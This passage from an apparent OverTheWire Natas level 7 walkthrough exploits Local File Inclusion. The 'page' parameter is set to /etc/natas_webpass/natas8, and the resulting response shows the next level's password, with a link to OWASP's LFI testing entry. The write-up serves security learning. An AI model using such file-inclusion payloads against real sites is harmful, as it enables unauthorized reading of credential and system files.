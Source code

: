 ```
> params add "page" "/etc/natas_webpass/natas8"
[🐝] Added param:
   'page' : '/etc/natas_webpass/natas8'
```

Now let's perform a get request against `index.php`:

```
> get http://natas7.natas.labs.overthewire.org/index.php                           
[🐝] Sending GET request to http://natas7.natas.labs.overthewire.org/index.php?page=%2Fetc%2Fnatas_webpass%2Fnatas8...
[🐝] GET request completed. Status code: 200 (OK)
[🐝] Response captured! Type 'response show' for summary
```

We can see from the feedback here that WebWasp automatically formatted our parameter for us and tacked it onto the URL. Unless we specify the `--no-params` flag like we did last level, all parameters will be automatically tagged onto our get requests like we see here.

And looking at the response:

```HTML
> resp show -t
<html>
<head>
-- truncated --
</head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```

There we go! It dumped the contents of `/etc/natas_webpass/natas8` for us!

The vulnerability we just exploited is called _Local File Inclusion_, and is an extremely common exploit that many sites fall victim to.

If you're curious, you can check out OWASP's entry pertaining to this exploit at

> https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion

Let's save that password into `pass8` and move on!

## Level 8
